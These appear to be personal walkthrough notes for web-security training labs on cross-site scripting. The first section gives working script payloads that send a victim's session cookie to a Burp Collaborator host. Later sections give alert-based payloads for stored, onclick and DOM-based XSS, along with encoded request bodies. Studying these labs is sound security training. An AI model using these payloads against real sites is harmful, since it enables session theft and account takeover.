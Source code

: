 # Lab: Exploiting cross-site scripting to steal cookies

Should comment an HTTP request script injection to your burp collaborator:
```javascript
<script>
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", 'https://mtjd42yn0x885vau3go892l4wv2oqd.burpcollaborator.net/?'+document.cookie, false ); // false for synchronous request
xmlHttp.send( null );
</script>
```
Then we will see the user's session cookie and we can just call my account with the user's cookie and solve the challenge.

Atlernative script is:
```html
<script>
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```

# Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

User intercept to capture a
Transfer this URL to the URL encoded and send the comment with the repeatrer
```http
https://acf81f301e4b67d580700be400e800d3.web-security-academy.net/?&apos;-alert(1)-&apos;
```
To get:
```http
https%3A%2F%2Facf81f301e4b67d580700be400e800d3.web-security-academy.net%2F%3f%26%61%70%6f%73%3b%2d%61%6c%65%72%74%28%31%29%2d%26%61%70%6f%73%3b
```
To get the packet:
```http
POST /post/comment HTTP/1.1
Host: ac161f701f431094801ba0b10084008a.web-security-academy.net
...
csrf=sPboZoDOXp9ocZN9gfV0LKueKLwMSoCC&postId=2&comment=aaaa&name=ddddd&email=asdsad%40sadfgsdf.com&website=https%3A%2F%2Facf81f301e4b67d580700be400e800d3.web-security-academy.net%2F%3f%26%61%70%6f%73%3b%2d%61%6c%65%72%74%28%31%29%2d%26%61%70%6f%73%3b
```



# DOM XSS in jQuery anchor href attribute sink using location.search source
Browse to 'feedback' page, change the url and click back
```
https://acb21f0a1ef32c1381a8b596007000af.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

# Stored DOM XSS
In blog post there was a stored XSS, later proccessed by js.
The vulnerable code:
```javascript
commentBodyPElement.innerHTML = escapeHTML(comment.body); 
...
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

Our comment in the blog:
```html
<spam>
<img src='1' onerror="alert(1)">
```